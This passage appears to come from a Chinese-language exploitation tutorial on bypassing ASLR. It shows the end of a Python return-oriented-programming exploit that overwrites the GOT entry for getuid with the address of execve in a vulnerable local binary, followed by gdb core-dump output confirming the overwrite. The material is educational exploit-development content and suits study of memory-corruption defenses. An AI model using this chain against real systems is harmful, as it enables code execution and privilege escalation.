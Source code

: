 ```
 return struct.pack("<I",num* 268 #Junk
buf += conv(g7) #movb $0x1,0x804a028; add esp, 0x04; pop ebx; pop ebp; ret;
buf += conv(dummy)
buf += conv(dummy)
buf += conv(dummy)
buf += conv(g6) #pop esi; pop edi; pop ebp; ret;
buf += conv(esi) #esi
buf += conv(edi) #edi
buf += conv(dummy)
buf += conv(g5) #pop ebx; ret;
buf += conv(ebx) #ebx
buf += conv(g4) #mov 0x34(%esp),%eax; ...

for num in range(0,11):
 buf += conv(dummy)

buf += conv(g2) #pop ebx; pop ebp; ret;
ebx = 0xaaa99b40 #getuid@GOT-0x5d5b04c4
buf += conv(ebx)
buf += conv(off)
buf += conv(g1) #addl %eax, 0x5D5B04C4(%ebx); ret;
buf += "B" * 4

print "Calling vulnerable program"
call(["./vuln", buf])
```

执行上面的利用代码会生成核心文件。打开核心文件来查看`GOT[getuid]`被`execve`函数地址覆盖（在下面展示）：

```
$ python oexp.py 
Calling vulnerable program
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��ﾭ�ﾭ�ﾭ�ͅﾭހ�����ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭޢ�@���0�����BBBB
Len:376
sploitfun@sploitfun-VirtualBox:~/lsploits/new/aslr/part3$ sudo gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/new/aslr/part3/vuln...(no debugging symbols found)...done.
(gdb) core-file core 
[New LWP 18781]
warning: Can't read pathname for load map: Input/output error.
Core was generated by `./vuln AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'.
Program terminated with signal 11, Segmentation fault.
#0 0x42424242 in ?? ()
(gdb) x/1xw 0x804a004
0x804a004 <getuid@got.plt>: 0xb761a1f0
(gdb) p getuid
$1 = {} 0xb761acc0 
(gdb) p execve
$2 = {} 0xb761a1f0 
(gdb) 
```

